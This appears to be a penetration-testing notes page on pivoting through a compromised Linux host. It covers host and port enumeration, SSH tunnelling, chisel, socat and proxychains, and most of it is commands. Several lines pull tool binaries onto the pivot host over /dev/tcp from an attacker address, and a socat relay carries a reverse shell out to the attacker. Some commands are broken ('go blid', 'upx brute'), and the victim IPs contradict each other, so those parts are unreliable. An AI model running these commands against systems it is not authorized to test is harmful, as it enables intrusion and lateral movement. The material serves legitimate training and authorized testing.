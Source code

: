 # Pivoting in Unix/Linux

## Pivoting in Unix/Linux

We may be in a situation where we are in an operating system that has more than one network interface, this could be physical, virtual, or even a container environment. 

## Pivoting Enumeration

### Enumerating the ARP Table

The ARP table contains IP addresses of hosts that the target has interacted with recently. We can enumerate it with:

```text
arp -a
```

### Enumerating Name Resolution

On Unix/Linux systems, we can find the name resolution mappings in:

```text
/etc/hosts
```

On Unix/Linux there is a file that identifies local DNS servers:

```text
/etc/resolv.conf
nmcli dev show
```

### Enumerating Network Interface Cards \(NICs\)

First, we must enumerate the subnets that are on the operating system, we can do this with **ipconfig** or **ip** commands:

```text
ifconfig
ip a
```

Then we must review the output:

```text
enp0s10f1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.10  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 fe80::7e8c:6a7c:faf1:274c  prefixlen 64  scopeid 0x20<link>
        ether 54:e1:ad:79:27:80  txqueuelen 1000  (Ethernet)
        RX packets 7463931  bytes 10268193539 (10.2 GB)
        RX errors 0  dropped 11149  overruns 0  frame 0
        TX packets 3581258  bytes 306664252 (306.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 16  memory 0xec200000-ec220000  

enp0s20f2: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 20.20.20.10  netmask 255.255.255.0  broadcast 20.20.20.255
        inet6 fe80::7e8c:6a7c:faf1:274c  prefixlen 64  scopeid 0x20<link>
        ether 54:e1:ad:79:27:80  txqueuelen 1000  (Ethernet)
        RX packets 7463931  bytes 10268193539 (10.2 GB)
        RX errors 0  dropped 11149  overruns 0  frame 0
        TX packets 3581258  bytes 306664252 (306.6 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
        device interrupt 16  memory 0xec200000-ec220000  
```

In this example we see more than one network interface, however, we don't have access to the other network \`20.20.0.10\`. On the victim machine, we can perform a ping sweep to use ICMP and see which hosts are up and running. 

### Enumerating Hosts

```text
fping -a -g 20.20.20.0/24 2>/dev/null
nmap -sn 20.20.20.0/24


# You can use either {1..255} or `seq 1 255`

for i in {1..254} ;do (ping 20.20.20.$i -c 1 -w 5  >/dev/null && echo "20.20.20.$i" &) ;done
for i in {1..255}; do (ping -c 1 20.20.20.${i} | grep "bytes from" &); done
for i in {1..255}; do ping -c 1 172.20.0.$i; done | grep 'ttl='
for i in `seq 1 255`; do (ping -c 1 172.20.0.$i > /dev/null && echo "172.20.0.$i is up" &); done

```

Another host has been found \`20.20.20.15\` and has ports 80 and 22 open, but because we can not access this machine, we have to use the machine 10.10.10.10 to make a reverse port forwarding of the 20.20.20.20:80 and 20.20.20.20:22 to the ports of the attacker machine. This is where pivoting comes into place.

Here for the notes, we will have this special nomenclature:

* 20.20.20.15 -&gt; **victim machine**
* 10.10.10.10 -&gt; **pivoting machine**
* attacker -&gt; **attacker machine**

### **Enumerating Ports**

If you found a host, you may want to do a port scan:

```text
for port in {1..30}; do echo > /dev/tcp/10.10.10.101/$port && echo "port $port is open";done 2>/dev/null
for port in `seq 1 30`; do echo > /dev/tcp/10.10.10.101/$port && echo "port $port is open";done 2>/dev/null
```

## Pivoting Example

127.0.0.1:3000 &lt;- Aogiri\(10.10.10.101\):3000 &lt;- Kaneki\_pc\(172.20.0.150\):3000 &lt;- Gogs\(172.18.0.2\):3000

Let’s try that, first SSH into 10.10.10.101 then forward port 3000 from 172.18.0.2 through kaneki-pc.

```bash
kaneki@Aogiri:~$ ssh -L 3000:172.18.0.2:3000 kaneki_pub@172.20.0.150
```

Then forward from Aogiri to our host \(127.0.0.1\):

```bash
kali@kali:~$ ssh -L 3000:127.0.0.1:3000 -i kaneki.backup kaneki@10.10.10.101
```

## Pivoting with chisel

Get chisel and build it.

```text
git clone https://github.com/jpillora/chisel
cd chisel
go blid -ldflags "-s -w" .
upx brute chisel
```

Send the chisel binary to the pivoting machine

* On attacker machine

```text
md5sum chisel
nc -nlvp 443 < chisel
```

* On pivoting machine

```text
cat > chisel < /dev/tcp/<attacker ip>/443
md5sum chisel
chmod +x chisel
```

* Create reverse port forwarding with the victim machine ports to bind attacker machine ports
  * On attacker machine

```text
./chisel server --reverse -p 1234
```

* On pivoting machine

```text
./chisel client <attacker ip>:1234 R:127.0.0.1:80:<victim ip>:80 R:127.0.0.1:222:<victim ip>:22
```

Now the attacker can check the web app on `localhost:80` or use `ssh 127.0.0.1 -p 222`

## Pivoting with socat

Get socat static binary:

```text
wget https://github.com/aledbf/socat-static-binary/releases/download/v.0.0.1/socat-linux-amd64
```

Send socat to pivoting machine:

* On attacker machine

```text
md5sum socat
nc -nlvp 443 < socat
```

* On pivoting machine

```text
cat > socat < /dev/tcp/<attacker ip>/443
md5sum socat
chmod +x socat
```

Prepare the attacker machine for listening:

```text
nc -nlvp 7979
```

Tunnel TCP data for a reverse shell from the victim to the attacker:

* On Pivoting Machine

```text
./socat TCP-LISTEN:4545,fork tcp:<attacker ip>:7979 &
```

We should have a reverse shell.

## Pivoting with SSH

#### SOCKS Proxy

```text
ssh -D8080 [user]@[host]

ssh -N -f -D 9000 [user]@[host]
-f : ssh in background
-N : do not execute a remote command
```

Cool Tip: Konami SSH Port forwarding

```text
[ENTER] + [~C]
-D 1090
```

#### Local Port Forwarding

```text
ssh -L [bindaddr]:[port]:[dsthost]:[dstport] [user]@[host]
```

#### Remote Port Forwarding

```text
ssh -R [bindaddr]:[port]:[localhost]:[localport] [user]@[host]
ssh -R 3389:10.1.1.224:3389 root@10.11.0.32
```

## Proxychains

### SSH Dynamic Port Forwarding

If the target has more than one NIC and more than one network subnet than we can use proxychains.

In Kali edit the proxychains configuration file:

```text
sudo vim /etc/proxychains.conf
```

Add this lines:

```text
[ProxyList]
socks4 127.0.0.1 8080
```

Perform a dynamic port forwarding to our port 8080

```text
sudo ssh -N -D 127.0.0.1:8080 username@<target-IP>
```

Then scan with nmap and specify a TCP scan with `-sT` and don't use `ICMP` with `-Pn`.

```text
proxychains nmap -p- -sT -Pn <target-Second-Interface-IP>
```






